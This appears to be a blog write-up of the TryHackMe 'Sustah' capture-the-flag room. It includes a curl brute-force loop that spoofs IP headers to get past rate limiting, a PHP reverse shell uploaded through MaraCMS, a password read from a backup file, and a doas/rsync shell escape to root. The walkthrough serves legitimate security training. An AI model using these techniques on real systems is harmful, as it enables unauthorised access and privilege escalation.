 ```yaml
---
layout: post
title:  "THM: Sustah"
date:   2021-01-26 21:00:00 +1100
category: hacking
---
```


## Sustah
*Play a game to gain access to a vulnerable CMS. Can you beat the odds?*

This is [Sustah](https://tryhackme.com/room/sustah) from THM. It's medium rated. We have another 'hint':

*The developers have added anti-cheat measures to their game. Are you able to defeat the restrictions to gain access to their internal CMS?*

## Ports
SSH and HTTP, plus another HTTP port (8085).

## Port 80
The front page is a picture, with a quote:

>"What you are is what you have been. What you’ll be is what you do now." Buddha

Cool, cool. Dirsearch draws a blank. Doesn't sound like a game though; let's try the other port.

## Port 8085
Here's the game. We find a 'spinner' wheel (like roulette), which we can 'spin'. There is also a message: 

>Feeling lucky? Guess the right number. You have a 0.004% chance of winning.

We can enter a number, and press a button to submit it. Capturing the request shows the number is submitted as a POST request to */home*. 0.004% corresponds to 1 in 25000, so it's just brute force the request with 25000 numbers, right?

Well yes, but it's not quite that simple.

### Anti-cheat
When we send a request, the server sends back a response like this:

{% highlight html %}
HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Tue, 26 Jan 2021 09:45:51 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 1004
X-RateLimit-Limit: 10
X-RateLimit-Remaining: 9
X-RateLimit-Reset: 1611654412
Retry-After: 60
{% endhighlight %}

Sending more than 10 requests quickly results in a *429 - Too many requests* error.

I hadn't seen this before, but some research revealed we can set some headers of our own to try to bypass this. In the end what I did was write a script to use cURL to brute force the server, with the additional headers and also setting the user agent to the number I was sending as well; just so it wasn't always the same. I got the script to diff the server response for each value against a prototypical bad response until I got something different:

{% highlight shell %}
for i in {10000..25000}
do
  touch $i.out
  curl --silent 'http://sustah:8085/home' -H 'User-Agent: $i' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://sustah:8085' -H 'Connection: keep-alive' -H 'Referer: http://sustah:8085/home' -H 'Upgrade-Insecure-Requests: 1' -H 'X-Forwarded-For: ' -H 'X-Forwarded-For: 127.0.0.1' -H 'X-Remote-IP: 127.0.0.1' -H 'X-Remote-Addr: 127.0.0.1' -H 'X-Originating-IP: 127.0.0.1' --data-raw "number=$i" >> $i.out
  diff $i.out proto.out
  status=$?
    if [[ $status != 0 ]]
    then
      echo "inspect $i"
    else
      rm $i.out
    fi
done
{% endhighlight %}

This script, after some time, revealed the answer: */YouGotTh3P@th*

## The Path
The path doesn't go with port 8085, it goes on Port 80. And here, we find something called *MaraCMS*, which is a (sorry) butt-ugly [CMS](https://sourceforge.net/projects/maracms/) written in PHP. You can login with default credentials (which then have to be changed); this gets you an admin account. After that I just clicked around until I found a way to upload a shell, it wasn't difficult but then later I Googled and found [instructions](https://www.exploit-db.com/exploits/48780). Bingo. I used the Pentestmonkey PHP reverse shell. 

{% highlight shell %}
root@kali:/opt/tryhackme/sustah# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.135.117] 39808
Linux ubuntu-xenial 4.4.0-197-generic #229-Ubuntu SMP Wed Nov 25 11:05:42 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:25:00 up  1:00,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}

## Kiran
We have one main user; kiran. Enumerate the server to find his password:

{% highlight shell %}
www-data@ubuntu-xenial:/var$ cd backups
cd backups
www-data@ubuntu-xenial:/var/backups$ ls -lash
ls -lash
total 636K
4.0K drwxr-xr-x  2 root root   4.0K Dec  9 10:04 .
4.0K drwxr-xr-x 14 root root   4.0K Dec  6 06:00 ..
4.0K -r--r--r--  1 root root   1.7K Dec  6 13:19 .bak.passwd
 52K -rw-r--r--  1 root root    50K Dec  6 06:25 alternatives.tar.0
8.0K -rw-r--r--  1 root root   6.2K Dec  9 06:46 apt.extended_states.0
4.0K -rw-r--r--  1 root root    715 Dec  6 17:08 apt.extended_states.1.gz
4.0K -rw-r--r--  1 root root    509 Nov 12 19:53 dpkg.diversions.0
4.0K -rw-r--r--  1 root root    207 Dec  6 06:01 dpkg.statoverride.0
536K -rw-r--r--  1 root root   535K Dec  6 06:19 dpkg.status.0
4.0K -rw-------  1 root root    849 Dec  6 06:17 group.bak
4.0K -rw-------  1 root shadow  714 Dec  6 06:17 gshadow.bak
4.0K -rw-------  1 root root   1.7K Dec  6 13:19 passwd.bak
4.0K -rw-------  1 root shadow 1.1K Dec  6 06:17 shadow.bak
www-data@ubuntu-xenial:/var/backups$ cat .bak.passwd
cat .bak.passwd
root:x:0:0:root:/root:/bin/bash
# etc etc
kiran:x:1002:1002:A PASSWORD HERE:/home/kiran:
www-data@ubuntu-xenial:/var/backups$ su kiran      
su kiran
Password: REDACTED

kiran@ubuntu-xenial:/var/backups$ sudo -l
sudo -l
[sudo] password for kiran: trythispasswordforuserkiran

Sorry, user kiran may not run sudo on ubuntu-xenial.
{% endhighlight %}

No sudo, but something similar....

## Privesc
Linpeas shows me something I've never seen before:

{% highlight shell %}
[+] Checking doas.conf
 permit nopass kiran as root cmd rsync  
{% endhighlight %}

Sorry, what? 

>The doas utility is a program originally written for OpenBSD which allows a user to run a command as though they were another user. Typically doas is used to allow non-privleged users to run commands as though they were the root user. The doas program acts as an alternative to sudo, which is a popular method in the Linux community for granting admin access to specific users.

Right, so it's basically sudo. So, with that and [GTFOBins](https://gtfobins.github.io/gtfobins/rsync/#sudo), we should be good?

{% highlight shell %}
kiran@ubuntu-xenial:/var/backups$ /usr/local/bin/doas -u root rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
< -u root rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null                
# cd /root
cd /root
# ls -lash
ls -lash
total 32K
4.0K drwx------  4 root root 4.0K Dec  9 06:51 .
4.0K drwxr-xr-x 25 root root 4.0K Jan 26 08:24 ..
4.0K -rw-rw-r--  1 root root   30 Dec  9 06:51 .bash_profile
4.0K -rw-r--r--  1 root root 3.1K Dec  9 05:26 .bashrc
4.0K drwx------  3 root root 4.0K Dec  7 10:37 .cache
4.0K drwxrwxr-x  2 root root 4.0K Dec  7 09:17 .nano
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -r--------  1 root root   33 Dec  9 11:09 root.txt
# cat root.txt
cat root.txt
# REDACTED
# id;hostname
id;hostname
uid=0(root) gid=0(root) groups=0(root)
ubuntu-xenial
{% endhighlight %}

Done and done!
